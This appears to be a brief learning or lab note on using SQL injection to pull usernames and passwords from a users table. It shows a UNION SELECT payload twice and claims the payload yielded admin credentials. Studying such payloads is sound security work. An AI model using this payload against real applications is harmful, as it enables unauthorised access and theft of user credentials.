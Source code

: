 # Retireving Sensitive Data

SQL injection can be helpful in retireving some sensitive data like password. Here is simple example for the same

```
' union select username, password from users--
```

This will return every user and password from the table users.

end goal : Retireve username and password

payload

```
' union select username, password from users--
```
got the password for admin access
